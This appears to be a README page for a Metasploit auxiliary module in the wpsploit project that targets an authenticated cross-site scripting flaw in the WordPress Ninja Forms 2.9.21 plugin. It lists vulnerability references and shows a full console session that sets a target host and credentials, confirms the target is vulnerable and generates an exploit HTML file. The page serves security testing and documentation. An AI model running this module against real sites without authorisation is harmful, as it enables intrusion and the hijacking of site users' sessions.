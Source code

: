 #### Add Wordpress Plugin Ninja Forms XSS Vulnerability.

  Application: Wordpress Plugin 'Ninja Forms' 2.9.21
  Homepage: https://wordpress.org/plugins/ninja-forms
  Source Code: https://downloads.wordpress.org/plugin/ninja-forms.2.9.21.zip
  References: https://wpvulndb.com/vulnerabilities/8128
  Active Install: +200.000

#### Vulnerable packages*
        
  2.9.21

#### Module

  [wp_ninja_forms_xss_scanner.rb](https://github.com/espreto/wpsploit/blob/master/modules/auxiliary/scanner/http/wordpress/wp_ninja_forms_xss_scanner.rb)
  
#### Usage:

##### Linux (Ubuntu 14.04.2 LTS):
```
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_ninja_forms_xss_scanner 
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_ninja_forms_xss_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host
   WP_PASS                     yes       A valid password
   WP_USER                     yes       A valid username

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  info

       Name: WordPress Ninja Forms XSS Scanner
     Module: auxiliary/scanner/http/wp_ninja_forms_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-07-14

Provided by:
  Morten Nørtoft, Kenneth Jepsen, Mikkel Vej
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host
  WP_PASS                     yes       A valid password
  WP_USER                     yes       A valid username

Description:
  This module attempts to exploit an Authenticated Cross-Site 
  Scripting in Ninja Forms Plugin for Wordpress, version 2.9.21 and 
  likely prior in order if the instance is vulnerable.

References:
  https://wpvulndb.com/vulnerabilities/8128
  https://packetstormsecurity.com/files/132913/

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set RHOSTS 10.10.10.20
RHOSTS => 10.10.10.20
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set WP_USER espreto
WP_USER => espreto
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set WP_PASS R@x0rP@55
WP_PASS => R@x0rP@55
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  check
[*] 10.10.10.20:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  run

[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the Ninja Forms 2.9.21 plugin for Wordpress
[+] Save in: /home/espreto/.msf4/local/script.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  firefox /home/espreto/.msf4/local/script.html
```
This will open the browser:

![XSS](../images/wp_ninja_forms_xss_scanner.png)
